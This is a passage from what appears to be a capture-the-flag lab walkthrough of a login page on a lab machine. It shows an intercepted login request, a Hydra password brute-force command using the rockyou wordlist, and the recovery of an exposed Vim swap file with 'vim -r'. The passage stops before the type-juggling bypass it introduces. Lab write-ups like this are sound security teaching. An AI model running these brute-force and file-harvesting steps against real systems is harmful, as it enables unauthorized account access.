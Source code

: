 ```
POST /login/login.php HTTP/1.1
Host: 10.129.92.120
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://10.129.92.120
Connection: close
Referer: http://10.129.92.120/login/login.php
Cookie: PHPSESSID=e2l2pvg7ejjb5oe28p8iumjne1
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

- Sent the request to the Repeater to see the response
- The response contains the following JS script

```html
<script>
    alert('Wrong Username Or Password')
</script>
```

- With this information we can attempt to bruteforce the login using Hydra

```bash
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form:\
    //{IP}/login/login.php:'username=^USER^&password=^PASS^' \
    :'H=Cookie\: PHPSESSID=uka1gssce0eth9p8fccq0ajk1v'\
    :'F=Wrong'
```

- However we did not get any successful result, neither with `root` user

---

## TYPE JUGGLING

- Let's visit the /login folder directly
- As we can see there are three files: `config.php, login.php` and `login.php.swp`

> SWP Extension refers to *Vim SWAP File*. A Vim Swap file, otherwise known as a 
> ".SWP" file, is created by the Vim text editor whenever somebody opens a file 
> to edit. This temporary file stores modifications made to the original document 
> and safeguards it in case of unexpected crashes or system malfunctions.

- Let's download the `login.php.swp`
- If we try to open the file using classical editors we will see only a bunch of bytes
- Using Vim we can restore part of the original file

```bash
$ vim -r login.php.swp
```

